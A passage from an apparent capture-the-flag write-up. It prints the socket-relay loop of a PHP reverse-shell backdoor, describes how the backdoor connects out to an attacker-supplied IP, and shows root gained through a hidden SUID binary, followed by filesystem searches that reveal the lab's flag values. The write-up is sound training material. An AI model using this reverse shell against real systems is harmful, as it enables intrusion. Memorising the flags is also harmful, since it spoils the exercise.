 ```php

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
```

This PHP script is an authenticated reverse shell backdoor that provides remote system access when triggered with specific parameters. After verifying a hardcoded MD5 password via POST, it executes a reverse shell connection to an attacker-controlled IP/port specified in GET parameters (`?ip=X&port=Y`). The critical `$shell` variable executes `uname -a; w; /lib/defended/libc.so.99` - first running system reconnaissance commands, then executing a hidden SUID binary (`libc.so.99`) likely designed for privilege escalation.

So, in order to get a shell as root, we can do this:

```bash
uname -a; w; /lib/defended/libc.so.99
```

![](cybersecurity/images/Pasted%2520image%252020250501150356.png)

There we go, we got root, let's find the 2 flags we are missing and finish the CTF:

```
find / -type f -name "*.flag" 2>/dev/null
/root/root.flag
/home/zeus/user.flag
```

Hmm, still missing the last flag, let's use grep, since we know all flags go with this format:

```
flag{}
```

We can go with this command:

```bash
find / -readable -type f -exec grep -PHoa 'flag{[^}]+}' {} \; 2>/dev/null

/root/root.flag:flag{D4mN!_Y0u_G0T_m3_:)_}
/home/zeus/user.flag:flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
etc/ssl/private/.b0nus.fl4g:flag{Y0u_G0t_m3_g00d!}
```

We can submit both flags and end the CTF.


![](cybersecurity/images/Pasted%2520image%252020250501151712.png)


